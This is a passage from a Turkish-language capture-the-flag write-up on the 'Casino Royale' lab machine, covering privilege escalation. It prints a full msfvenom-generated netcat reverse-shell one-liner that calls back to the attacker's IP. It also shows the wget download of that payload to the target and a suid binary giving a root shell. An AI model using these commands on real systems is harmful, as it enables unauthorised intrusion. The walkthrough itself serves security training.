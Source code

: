 
## 3	Yetki Yükseltme
İlk başta kendi makinemde bir payload oluşturup bunu run.sh isimli bir dosyaya yazıp daha sonra python ile mini server oluşturup hedef makine içerisinde */tmp* klasörüne wget ile çekeceğim.
```sh
root@kali:~/Documents/Kutular/CasinoRoyale/dosyalar# msfvenom -p cmd/unix/reverse_netcat lhost=192.168.171.136 lport=1823 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
mkfifo /tmp/hikxc; nc 192.168.171.136 1823 0</tmp/hikxc | /bin/sh >/tmp/hikxc 2>&1; rm /tmp/hikxc
```
Payloadı oluşturduktan sonra dinleme noktası oluşturalım.
```sh
root@kali:~/Documents/Kutular/CasinoRoyale/dosyalar# nc -lvp 1823
listening on [any] 1823 ...
```
Şimdi payloadı run.sh isimli dosyaya yazıp python ile server oluşturalım. Burada payload'tan kastım : *mkfifo /tmp/hikxc; nc 192.168.171.136 1823 0</tmp/hikxc | /bin/sh >/tmp/hikxc 2>&1; rm /tmp/hikxc*

```sh
root@kali:~/Documents/Kutular/CasinoRoyale/dosyalar# nano run.sh
root@kali:~/Documents/Kutular/CasinoRoyale/dosyalar# python -m SimpleHTTPServer 1824
```

Hedef makineden run.sh dosyasını çekelim.

```sh
valenka@casino:/tmp$ wget http://192.168.171.136:1824/run.sh
wget http://192.168.171.136:1824/run.sh
--2019-05-18 16:52:55--  http://192.168.171.136:1824/run.sh
Connecting to 192.168.171.136:1824... connected.
HTTP request sent, awaiting response... 200 OK
Length: 98 [text/x-sh]
Saving to: ‘run.sh’

run.sh              100%[===================>]      98  --.-KB/s    in 0s      

2019-05-18 16:52:55 (7.80 MB/s) - ‘run.sh’ saved [98/98]
```
Ve artık suid biti etkin olan dosyayı çalıştıralım...
```sh
valenka@casino:/tmp$ /opt/casino-royale/mi6_detect_test
/opt/casino-royale/mi6_detect_test
```
Kalimize bağlantı geldi!
```sh
root@kali:~/Documents/Kutular/CasinoRoyale/dosyalar# nc -lvp 1823
listening on [any] 1823 ...
connect to [192.168.171.136] from casino-royale.local [192.168.171.141] 37948
ls
hikxc
run.sh
whoam
/bin/sh: 2: whoam: not found
whoami
root
```
Evet root'uz!
```sh
cd /root
ls
ctf-scripts
Desktop
Downloads
```